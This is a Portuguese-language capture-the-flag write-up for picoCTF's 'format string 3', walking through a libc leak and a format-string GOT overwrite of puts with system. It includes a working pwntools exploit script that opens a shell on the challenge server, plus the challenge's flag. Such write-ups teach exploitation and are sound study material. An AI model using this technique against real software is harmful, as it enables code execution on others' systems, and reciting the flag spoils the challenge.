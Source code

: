 # WriteUp: format string 3

## Descrição do Desafio:
Author: SkrubLawd \
Plataforma: [PicoCTF](https://play.picoctf.org/practice/challenge/449?category=6&page=1) \
Categoria: Binary Exploitation \
Dificuldade: Médio \
Data: 2024 \
Descrição:
> This program doesn't contain a win function. How can you win?

## Passo a Passo da Solução

### 1. Análise do arquivo fornecido
Este desafio, assim como os anteriores, fornece o código-fonte junto com os arquivos executáveis.

```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);

	puts(normal_string);

	return 0;
}
```
Por ser um código simples, não há muito o que analisar. 

Temos uma variável global contendo o valor `"/bin/sh"`, que nos daria acesso ao terminal caso fosse passado como parâmetro para a função `system()`.

Além disso, há uma função (`hello()`) que vaza um endereço da *libc*, e a `main()` contém uma vulnerabilidade de *format string* na chamada `printf(buf)`, seguida por uma chamada à `puts()` com `normal_string` como argumento.

### 2. Exploit
Com essas informações, podemos suspeitar que o *exploit* envolverá reescrever a entrada da `puts()` na tabela *.got*, alterando seu valor para o endereço da função `system()`. Dessa forma, quando a `main()` chamar `puts(normal_string)`, na realidade estará chamando `system(normal_string)`, abrindo um **shell**.

> 💡 **Nota:** Resumidamente, a tabela *.got* contém os endereços resolvidos das funções da *libc*. Como a *libc* é carregada separadamente, suas proteções podem diferir das do binário principal.

Antes de construir o *exploit*, é necessário verificar as proteções dos binários:

```bash
└─$ checksec --file=format-string-3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   RW-RUNPATH   44 Symbols        No    0               2               format-string-3

└─$ checksec --file=libc.so.6           
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    DSO             No RPATH   No RUNPATH   No Symbols        Yes   83              178             libc.so.6
```
O executável não contém `PIE`, então seus endereços são sempre os mesmos, eliminando a necessidade de um vazamento para descobri-los. Além disso, ele possui `Partial RELRO`, o que significa que a tabela *.got* ainda pode ser reescrita através da vulnerabilidade de *format string*.

Já a *libc* está com `PIE` ativado, mas como temos um vazamento de endereço, podemos calcular a base da *libc* e encontrar a função `system()`.

Agora, precisamos descobrir o *offset* do nosso *input* dentro da pilha.

```bash
└─$ ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fc02480a3f0
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x 
24968963 fbad208b c2058eb0 1 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 a2078 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 
/bin/sh
```

Descobrimos que nosso *input* começa na **posição 38**.

### 3. Solução
O *exploit* pode ser construído, mas há algumas dificuldades técnicas:
- Endereços da *libc* (devido ao `PIE`) costumam ter 6 *bytes*, resultando em valores muito grandes para `printf()`. A solução é dividir o endereço da `system()` em três partes de 2 *bytes* e escrevê-las em ordem crescente para evitar problemas com `%n`.
- O tamanho do *payload* deve ser múltiplo de 8 para não corromper a pilha.
- Devemos garantir que os ponteiros corretos sejam usados com `%hn` para escrita de 2 *bytes*.

> 💡 **Nota:** `%n` escreve no ponteiro a quantidade de bytes impressos até o momento. Se um valor muito grande for escrito primeiro, valores menores se tornam impossíveis de escrever.

Com isso em mente, criamos o *script*:

```py
from pwn import *

elf = context.binary = ELF("./format-string-3")
libc = elf.libc
p = remote("rhea.picoctf.net", 56685)

# Pegando o endereço vazado.
p.recvuntil(b"libc: ")
setvbuf = int(p.recvline(keepends=False), 16)

# Calculando o endereço base da libc.
libc.address = setvbuf - libc.sym['setvbuf']

# Repartindo o endereço da system. Por ser little-endian o endereço deve ser escrito ao contrário, fazendo com que o high deva ser escrito no endereço sem offset, e o low com o offset. (O medium é o meio termo).
high = libc.sym["system"] & 0xFFFF
medium = (libc.sym["system"] >> 16) & 0xFFFF
low = (libc.sym["system"] >> 32) & 0xFFFF
parts = sorted([high, medium, low]) # Ordenando.

# Montando o payload, inputs começam na posição 38.
payload = f"%{parts[0]}x%43$hn%{parts[1] - parts[0]}x%44$hn%{parts[2] - parts[1]}x%45$hn"
while len(payload) % 8 != 0:
    payload += "|" # Padding.

# Adicionando endereços no payload.
payload = payload.encode()
payload += p64(elf.got["puts"] + (0 if parts[0] == high else 2 if parts[0] == medium else 4))
payload += p64(elf.got["puts"] + (0 if parts[1] == high else 2 if parts[1] == medium else 4))
payload += p64(elf.got["puts"] + (0 if parts[2] == high else 2 if parts[2] == medium else 4))

# Enviando payload.
p.sendline(payload)
p.interactive()
```

### Flag
`picoCTF{G07_G07?_92325514}` 

## Autor
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
